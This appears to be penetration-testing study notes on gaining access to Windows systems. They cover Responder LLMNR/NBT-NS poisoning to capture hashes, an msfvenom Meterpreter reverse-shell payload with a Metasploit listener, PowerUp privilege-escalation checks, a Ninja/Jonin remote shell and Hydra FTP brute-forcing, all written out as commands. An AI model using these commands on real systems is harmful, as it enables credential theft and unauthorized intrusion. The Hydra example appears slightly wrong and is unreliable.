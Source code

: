 # Gain Access

first step in system hacking is to gain access to a target system using information obtained and loopholes found in the system’s access control mechanism. With this step, you will use various techniques such as password cracking, vulnerability exploitation, and social engineering to gain access to the target system.

Vulnerability exploitation involves the execution of multiple complex, interrelated steps to gain access to a remote system. Attackers use discovered vulnerabilities to develop exploits, deliver, and execute the exploits on the remote system.

***

## Active Online Attack to crack the System's Password using Responder

**LLMNR** (Link Local Multicast Name Resolution) and **NBT-NS** (NetBIOSNameService) are two main elements of Windows OSes that are used to perform name resolution for hosts present on the same link. These services are enabled by default in Windows OSes and can be used to extract the password hashes from a user.&#x20;

By listening for LLMNR/NBT-NS broadcast requests, an attacker can spoof the server and send a response claiming to be the legitimate server. After the victim system accepts the connection, it is possible to gain the victim’s user-credentials by using a tool such as Responder.py.

Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.

{% embed url="https://github.com/lgandx/Responder" %}

### Set up Responder

```
sudo responder -I [interface]
```

* -I: Specifies the interface, check the interface issue **ifconfig** command.

The attack will success if a user try to access the AD. The access logs of target machine will be captured and collects the hashes of the logged in user of the target machine. Responder kept their logs in /usr/share/responder/logs. Copy the hash value of user x, create a file name hash.txt and run password cracking tools name John the ripper or hashcat to crack the password.

***

## Find Vulnerabilities on Exploit Sites

Exploit sites contain the details of the latest vulnerability of various OSes, devices, and applications. You can use these sites to find relevant vulnerabilities about the target system based on the information gathered, and further download the exploits from the database and use exploitation tools such as Metasploit, to gain remote access.

{% embed url="https://www.exploit-db.com/" %}

{% embed url="https://vuldb.com/" %}

{% embed url="https://cve.mitre.org/" %}

{% embed url="https://vulners.com/" %}

{% embed url="https://cve.circl.lu/" %}

***

## Exploit Client-side Vulnerabilities and Establish a VNC session

Attackers use client-side vulnerabilities to gain access to the target machine. VNC(Virtual Network Computing) enables an attacker to remotely access and control the targeted computers using another computer or mobile device from anywhere in the world. At the same time, VNC is also used by network administrators and organization throughout every industry sector for a range of different scenarios and uses, including providing IT desktop support to colleagues and friends and accessing systems and services on the move.

### Generate a malicious file

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.10.1.13 LPORT=4444 -o /home/attacker/Desktop/Test.exe
```

### Send the malicious payload to the target.

### Set up listener, could use metasploit

```
use exploit/multi/handler
set windows/meterpreter/reverse_tcp
set LHOST VALUE
set LPORT VALUE
exploit
```

### After the app running and get the session

```
sessions -i 1
```

### Upload PowerUp.ps1

PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.

```
upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
```

### change shell session

could change the shell session &#x20;

```
shell
```

### Check for misconfigured service

The result will displaying **Check** and **AbuseFunction** that the attacker can exploit the misconfigured services such as unquoted service paths, service object permissions, unattended installs, modifiable registry autoruns and configurations, and other locations to elevate access privileges.

```
powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks"
```

### Running the vnc

back to meterpreter shell and exploit the VNC vulnerability.

```
run vnc
```

***

## Gain accessto a remote system using Ninja Jonin

Ninja Jonin is a combination of two tools; **Ninja** is installed in victim machine and **Jonin** is installed on the attacker machine. The main functionality of the tool is to control a remote machine behind any NAT, Firewall, and Proxy.

### Attacker Machine

Extract **Jonin** zip and create a folder and extract **Ninja** zip in the same folder. Change the config located in folder **config**, on **Constant.json** change the **NAME** and **HOST** according to the victim. Start the listener, which is **Jonin.exe.** Make the zip and send it to the victim.&#x20;

### Victim Machine

Extract the zip and run the **ninja** file. Observe that the terminal will connect

### exploit

```
list # ensure have catch the reverse shell
connect 1 # connect the server
change
cmd # get the cmd session
ipconfig # check the ip address
#help # check for further action command such as upload and download file, etc.
```

***

## Brute-force FTP using Hydra

A dictionary or wordlist contains thousands of words that are used by password cracking tools to break into a password-protected system. An attacker may either manually crack a password by guessing it or use automated tools and techniques such as the dictionary method. Most password cracking techniques are successful, because of weak or easily guessable passwords.

```
hydra -L [username dictionary] -p [password dictionary] ftp://[ip-address]
```



